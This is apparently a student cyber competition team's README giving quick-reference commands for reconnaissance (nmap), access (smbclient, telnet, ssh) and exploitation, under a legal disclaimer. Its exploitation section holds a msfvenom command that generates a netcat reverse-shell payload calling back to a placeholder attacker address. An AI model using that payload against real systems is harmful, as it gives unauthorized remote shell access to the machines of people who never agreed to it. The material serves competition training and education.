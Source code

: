 # A Public Repository for the UAT Cyber Competition Team
The folders represent various scripts and resources applicable to individual members or subject areas to support Blue or Red team operations.  The guidance below is for quick reference and will continue to evolve as we develop use-cases.
> ### Using any of the resources within this repository without proper permission by the target network owner will likely be illegal.  These resources are for educational purposes only. 

## RECONNAISSANCE
### Enumeration (Active Recon)
#### Network Enumeration
The first step in evaluating a target network is to identify open ports and active services.

NMAP Commands\
nmap [flag(s)] [target/file]



References:\
[Try Hack Me NMAP room](https://tryhackme.com/r/room/furthernmap)\
[NMAP Cheat Sheet All Commands & Flags Nathan House](https://www.stationx.net/nmap-cheat-sheet/)


## ACCESS
[An overview of SMB, Telnet, SSH and FTP](https://chatgpt.com/share/3a9c17c6-db6d-48b6-ae75-a3d976bdfd4f)

SMB Commands:\
```zsh
smbclient //[ip]/[share] -U [userName] -p [port]
```
Telnet Commands:\
```zsh
telnet [ip] [port]
```
SSH Commands:\
```zsh
ssh username@IP
```
FTP Commands:\

## EXPLOITATION

Reverse Shell:\
Obtain your lhost from the terminal using ifconfig or ip a

Obtaining a reverse shell payload:\
```zsh
msfvenom -p cmd/unix/reverse_netcat lhost=xx.xx.xx.xx lport=4444 R
```
